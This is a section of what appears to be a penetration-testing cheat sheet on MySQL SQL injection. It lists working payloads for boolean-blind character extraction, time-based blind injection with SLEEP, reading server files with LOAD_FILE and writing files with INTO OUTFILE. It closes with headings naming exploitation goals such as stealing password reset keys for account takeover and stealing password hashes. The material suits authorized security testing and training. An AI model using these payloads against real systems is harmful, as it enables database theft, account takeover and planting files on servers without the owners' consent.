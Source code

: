 ```
' OR SUBSTRING((SELECT <COLUMN> FROM <TABLE> limit 0,1),<INDEX>,1)='<CHAR>
```

### 16.2.6	AUTOMATED SCRIPT [7]
- See BooleanBlindInjectionScript.txt

## 16.3	TIME-BASED BLIND [8]

### 16.3.1	PROOF OF CONCEPT

- If this input causes a 5 second delay, probable that time-based SQL exists

```
' OR SLEEP(5) AND '1'='1
```

### 16.3.2	FORMULA

```
' OR IF(%s, sleep(5), 'NO') AND '1'='1
```

- where %s is payload (see LENGTH and SUBSTRING sections from 20.2)

## 16.4	FILE INCLUSION

### 16.4.1	GENERAL CONCEPTS

#### 16.4.1.1	PRIVILEGES AND FUNCTIONS

- FILE privilege allows user to read files [9]
- LOAD_FILE() allows reading files from filesystem [10]

### 16.4.2	READING FILE [11]

```
' UNION SELECT LOAD_FILE('<FILE>'),2,...,N --
```

### 16.4.3	WRITING FILE [11]

```
' UNION SELECT 1,...,N-1, "<FILECONTENTS"> into OUTFILE '<DESTINATIONPATH>' --
```

## 16.5	EXPLOITATION TARGETS

### 16.5.1	STEAL PASSWORD RESET KEY FOR ATO

### 16.5.2	STEAL PASSWORD HASHES

### 16.5.3	WRITE TO FILESYSTEM
